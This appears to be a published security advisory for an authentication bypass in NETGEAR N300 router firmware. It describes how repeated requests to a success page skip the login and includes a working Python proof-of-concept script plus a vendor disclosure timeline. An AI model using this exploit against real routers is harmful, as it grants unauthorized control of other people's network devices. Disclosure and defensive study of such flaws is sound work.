 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
- [https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
- [routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
- [https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
- [https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers [1] are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware `N300_1.1.0.31_1.0.1.img`
- Router Firmware `N300-1.1.0.28_1.0.1.img`
- Router Firmware `N300-1.1.0.24_1.0.1.img`

> Tested and confirmed on the `WNR1000v4` Router with the mentioned firmwares. Other products may also be vulnerable because the firmware is used in multiple devices
{: .prompt-tip }

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL `http://[ROUTER-IP]/BRS_netgear_success.html` multiple times

> After that the adversary can access the administration web interface and there is no username/password prompt
{: .prompt-tip }

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
- 21.07.2015: Vendor notified per email (security@netgear.com) -> No response
- 23.07.2015: Vendor notified via official chat support
- 24.07.2015: Support redirected notification to the technical team
- 29.07.2015: Requested status update and asked if they need further assistance -> No response
- 21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
- 03.09.2015: Support again said that they will redirect it to the technical team
- 03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
- 03.09.2015: Confirmed to Netgear that the problem is solved in this version -> Asked Netgear when they plan to release the firmware with this security fix
- 11.09.2015: Response from Netgear saying they will not disclose the patch release day
- 15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time -> No response
- 29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
- 06.10.2015: Forced public release of this advisory to follow up on [2]

# References
- [1] [http://support.netgear.com/product/WNR1000v4](http://support.netgear.com/product/WNR1000v4)
- [2] [http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html](http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html)

